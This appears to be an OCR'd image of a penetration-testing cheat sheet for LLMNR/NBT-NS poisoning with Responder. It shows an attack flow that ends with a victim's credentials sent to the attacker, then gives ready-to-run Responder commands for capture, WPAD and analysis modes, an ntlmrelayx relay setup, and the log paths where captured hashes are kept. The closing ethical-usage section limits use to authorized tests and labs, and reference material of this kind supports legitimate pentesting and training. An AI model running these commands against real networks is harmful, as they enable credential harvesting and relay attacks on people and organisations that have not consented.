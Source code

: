 ### **Test Scenarios:**
1. Click malicious UNC paths (`\\FAKESHARE`)
2. Open crafted .LNK files
3. Misconfigured application scenarios
4. Manual hostname resolution attempts

---

## **📊 ATTACK FLOW**

```
1. DNS Lookup Fails
   ↓
2. System broadcasts LLMNR/NBT-NS query
   ↓
3. Responder intercepts & responds
   ↓
4. Victim sends credentials to attacker
   ↓
5. Hash capture/relay → Access gained
```

---

## **🔥 QUICK REFERENCE**

### **Essential Commands:**
```bash
# Basic capture
sudo python3 Responder.py -I eth0 -v

# With WPAD
sudo python3 Responder.py -I eth0 -w -v

# Analysis mode
sudo python3 Responder.py -I eth0 -A

# Relay setup
sudo ntlmrelayx.py -t <target> -smb2support
```

### **File Locations:**
- **Config:** `Responder.conf`
- **Logs:** `Responder/logs/`
- **Hashes:** `Responder/logs/*.txt`

---

## **⚠️ ETHICAL USAGE**

**Only use Responder in:**
- Authorized penetration tests
- Personal lab environments
- Educational/research contexts with proper permissions

**Never use for:**
- Unauthorized network access
- Malicious credential harvesting
- Corporate espionage